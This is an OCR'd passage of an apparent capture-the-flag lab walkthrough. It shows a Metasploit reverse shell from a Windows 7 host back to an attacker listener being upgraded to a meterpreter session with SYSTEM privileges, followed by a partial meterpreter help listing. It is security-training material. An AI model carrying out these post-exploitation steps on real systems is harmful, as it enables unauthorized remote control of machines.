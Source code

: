 Active sessions
===============

  Id  Name  Type               Information                                         Connection
  --  ----  ----               -----------                                         ----------
  1         shell x64/windows  Shell Banner: Microsoft Windows [Version 6.1.7601]  10.14.32.60:4444 -> 10.10.100.165:49171 (10.10.100.165)
```

After that, we just have to use ```set SESSION 1```, where 1 is the ID of the running session.  
Now, we can run the post module to convert our shell to a meterpreter with ```run```.  

If we list sessions again, we see that we have 1 more session.  
```
msf6 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                         Connection
  --  ----  ----                     -----------                                         ----------
  1         shell x64/windows        Shell Banner: Microsoft Windows [Version 6.1.7601]  10.14.32.60:4444 -> 10.10.100.165:49171 (10.10.100.165)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC                        10.14.32.60:4433 -> 10.10.100.165:49189 (10.10.100.165)
```

Now we just have to select the meterpreter session by using ```sessions 2```.
We can type ```help``` to have a list of commands available with the meterpreter.
```
meterpreter > help

Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background
    bgkill                    Kills a background meterpreter script
    bglist                    Lists running background scripts
    bgrun                     Executes a meterpreter script as a background thread
    channel                   Displays information or control active channels
    close                     Closes a channel
    detach                    Detach the meterpreter session (for http/https)
    disable_unicode_encoding  Disables encoding of unicode strings
    enable_unicode_encoding   Enables encoding of unicode strings
    exit                      Terminate the meterpreter session
    get_timeouts              Get the current session timeout values
    guid                      Get the session GUID
    help                      Help menu
    info                      Displays information about a Post module
    irb                       Open an interactive Ruby shell on the current session
    load                      Load one or more meterpreter extensions
    machine_id                Get the MSF ID of the machine attached to the session
    migrate                   Migrate the server to another process
    pivot                     Manage pivot listeners
    pry                       Open the Pry debugger on the current session
    quit                      Terminate the meterpreter session
    read                      Reads data from a channel
    resource                  Run the commands stored in a file
    run                       Executes a meterpreter script or Post module
    secure                    (Re)Negotiate TLV packet encryption on the session
    sessions                  Quickly switch to another session
    set_timeouts              Set the current session timeout values
    sleep                     Force Meterpreter to go quiet, then re-establish session